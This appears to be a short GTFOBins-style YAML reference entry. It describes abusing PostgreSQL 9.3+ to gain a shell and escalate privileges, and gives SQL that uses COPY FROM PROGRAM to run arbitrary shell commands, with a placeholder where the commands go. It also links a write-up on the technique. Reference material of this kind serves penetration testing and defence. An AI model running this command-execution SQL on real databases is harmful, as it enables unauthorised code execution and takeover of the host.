 ```yaml
---
functions:
  gain-access:
    - description: Use code execution to pop a shell in the context of the mysql user
  privilege-escalation:
    - description: Use code execution to escalate privileges if postgres is running as root
      code: |
        version 9.3 +
        CREATE TABLE cmd_exec(cmd_output text);
        COPY cmd_exec FROM PROGRAM '<shell commands>';SELECT * FROM cmd_exec;

resources : |
  https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5
---
```


